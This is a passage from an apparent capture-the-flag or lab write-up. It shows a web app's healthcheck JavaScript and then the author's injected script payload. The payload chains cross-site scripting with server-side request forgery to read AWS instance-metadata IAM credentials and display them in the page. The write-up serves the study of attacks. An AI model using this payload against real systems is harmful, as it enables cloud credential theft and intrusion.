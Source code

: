 ```
})
.catch(err => {
statusEl.textContent = "Request failed";
console.error(err);
});
}
function check_url() {
const url = urlInput.value;
if (!url) {
healthStatusEl.textContent = "Please enter a URL";
return;
}
fetch(`/api/healthcheck?url=${encodeURIComponent(url)}`)
.then(res => res.json())
.then(data => {
if (data.status === "up") {
healthStatusEl.textContent = "Site is up";
} else {
healthStatusEl.textContent = `Site is down: ${data.error}`;
}
})
.catch(err => {
healthStatusEl.textContent = "Healthcheck failed";
console.error(err);
});
}
```

Since we already know our role name from listing instances earlier, we use a payload to use the /api/healthcheck request to get infomation regarding our credentials

```
<script>
var x=new XMLHttpRequest();
x.onload=function(){
	document.open();
	document.write('<pre id=o style="margin:0;white-space:pre-wrap"></pre>');
	document.close();
	o.textContent=this.responseText
};
x.open('GET','http://172.31.73.190/api/healthcheck?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/internal-ec2/');
x.send();
</script>

```
and now our token goes out of bounds again

<img width="969" height="61" alt="image" src="https://github.com/user-attachments/assets/58d4993a-1813-4c9f-aa3b-7b4e7d87c366" />

but this time I realised I could put word wrapping in our new document by adding the "word-break:break-word" declaration in its style.
